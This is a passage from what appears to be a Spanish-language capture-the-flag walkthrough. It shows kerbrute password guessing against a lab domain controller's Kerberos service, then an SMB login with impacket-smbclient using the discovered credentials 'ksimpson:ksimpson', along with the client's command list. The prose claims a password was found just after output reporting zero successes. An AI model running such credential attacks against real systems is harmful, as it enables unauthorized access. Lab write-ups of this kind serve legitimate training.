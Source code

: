 ```bash
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/01/24 - Ronnie Flathers @ropnop
2024/10/01 16:08:34 >  Using KDC(s):
2024/10/01 16:08:34 >   10.10.11.168:88
2024/10/01 16:08:34 >  Done! Tested 5 logins (0 successes) in 0.314 seconds

./kerbrute_linux_amd64 bruteuser --dc 10.10.11.168 -d scrm.local users sjenkins
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/01/24 - Ronnie Flathers @ropnop
2024/10/01 16:08:44 >  Using KDC(s):
2024/10/01 16:08:44 >   10.10.11.168:88
2024/10/01 16:08:44 >  Done! Tested 5 logins (0 successes) in 0.311 seconds
```
Muy bien, tenemos la contraseña para el usuario **ksimpson** del **servicio Kerberos**.

<h2 id="ksimpson">Probando Contraseña de Usuario ksimpson con impacket-smbclient para Entrar a Servicio SMB vía Kerberos</h2>

La herramienta **smbclient** que se incluye en **impacket**, nos puede servir para autenticarnos en el **servicio SMB vía Kerberos**.

Vamos a probarlo con la contraseña que acabamos de encontrar, solo indica el dominio junto al usuario y contraseña y el servidor de dominio:
```bash
impacket-smbclient -k scrm.local/ksimpson:ksimpson@dc1.scrm.local
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
Type help for list of commands
\#
```

Si escribimos `help`, veremos qué comandos podemos usar:
```bash
# help

 open {host,port=445} - opens a SMB connection against the target host/port
 login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted
 kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name
 login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes
 logoff - logs off
 shares - list available shares
 use {sharename} - connect to an specific share
 cd {path} - changes the current directory to {path}
 lcd {path} - changes the current local directory to {path}
 pwd - shows current remote directory
 password - changes the user password, the new password will be prompted for input
 ls {wildcard} - lists all the files in the current directory
 lls {dirname} - lists all the files on the local filesystem.
 tree {filepath} - recursively lists all files in folder and sub folders
 rm {file} - removes the selected file
 mkdir {dirname} - creates the directory under the current path
 rmdir {dirname} - removes the directory under the current path
```
